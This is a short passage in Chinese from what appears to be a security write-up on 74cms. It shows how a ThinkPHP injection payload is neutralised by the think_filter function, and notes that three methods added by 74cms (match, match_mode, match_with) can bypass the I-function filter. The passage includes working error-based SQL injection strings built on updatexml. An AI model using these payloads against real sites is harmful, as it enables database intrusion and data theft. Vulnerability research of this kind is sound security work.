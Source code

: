 ```
例如：
    没有使用 think_filter 函数时
goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

使用了 think_filter 函数时
  goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
  注意：使用了 think_filter 函数时 in 后面是有空格的也就是说返回值是
goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。 
```

接着我们直接打开文件：74cms\upload\ThinkPHP\Library\Think\Db\Driver.class.php

![image](img/d9f7b081347791ecca4b0d42b9f2126f.png)

```
think_filter 函数与上图两者对比一下，是否发现多点了东西？
是的没错了。
74cms 修改了 tp 底层添加了
3 个新方法：
match
  match_mode
  match_with

也就是说这 3 个方法我们是可以绕过 I 函数的过滤的

接着查看：parseWhereItem( 方法 
```

![image](img/3c0217e0c6f2e29a49c91c88d3fef351.png)
